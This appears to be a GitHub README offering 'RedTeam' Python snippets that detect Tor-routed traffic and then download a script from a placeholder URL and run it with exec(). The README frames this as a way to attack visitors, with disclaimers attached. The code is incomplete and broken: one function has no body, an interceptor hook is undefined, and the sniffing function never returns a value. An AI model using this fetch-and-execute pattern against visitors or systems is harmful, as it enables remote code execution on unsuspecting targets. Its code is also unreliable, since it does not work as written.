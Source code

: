 # Feuerteufel
###### RedTeam Script Examples (EDU) by Mr.Chess - simple codings for 'Offensive Security' (updated 5/2023)

A creative small Python script that intercepts API requests and, when accessed through the Tor network, loads and runs an external script from a specified URL to Fuck them!
However, keep in mind that this is a highly risky and potentially illegal activity. Use at your own risk and only against crime and child abuse!
## Sorry cant explane all or you know what can be!

## WARNING: READ CAREFULLY! !!! DANGER !!!
This Black Python script example is intended for use by security professionals and developers only. It is not intended for malicious purposes, and I cannot be held responsible for any misuse of this code. If you use this tool for illegal or unethical purposes, you alone will be held responsible for any consequences that may arise, including legal and ethical issues.

Please see [SherlocksHome](https://github.com/VolkanSah/SherlocksHome/) & [This](https://github.com/VolkanSah/playing-with-scapy-and-stem) to understand logic 😅

### Be aware that attempting to bypass security measures is likely illegal and unethical!
Idea:
```python
import requests

def intercept_api_requests(request):
    if check_if_accessed_over_tor(request):
        external_script_url = "https://example.com/external_script.py"
        response = requests.get(external_script_url)
        if response.status_code == 200:
            exec(response.text)
        else:
            print("Failed to load the external script.")

def check_if_accessed_over_tor(request):
    # Implement your logic to detect if the request is coming from the Tor network
    # This might involve inspecting the request headers or analyzing network traffic

# Register the interceptor function to intercept API requests
register_interceptor(intercept_api_requests)
```


example 1: 
```python
from scapy.all import *
from stem import Signal
from stem.control import Controller
import requests

def check_if_tor_traffic(packet):
    if packet.haslayer(TCP) and packet[TCP].dport == 443:
        with Controller.from_port(port = 9051) as controller:
            controller.authenticate()
            if controller.get_info("address") == packet[IP].dst:
                return True
    return False

def sniff_packets():
    packets = sniff(filter="tcp and (port 9050 or port 9051)", prn=check_if_tor_traffic)

def intercept_api_requests(request):
    if sniff_packets():
        # This is where you would load and execute your external script.
        # Remember that executing code fetched from the internet can be risky.
        external_script_url = "https://example.com/external_script.py"
        response = requests.get(external_script_url)
        if response.status_code == 200:
            exec(response.text)
        else:
            print("Failed to load the external script.")
``` 

## issues
Issues to this script are not accepted as it is intended for educational purposes only and not for production use.

### Thank you for your support!
- If you appreciate my work, please consider [becoming a 'Sponsor'](https://github.com/sponsors/volkansah), giving a :star: to my projects, or following me. 
### Copyright
- [VolkanSah on Github](https://github.com/volkansah)
- [Developer Site](https://volkansah.github.io)
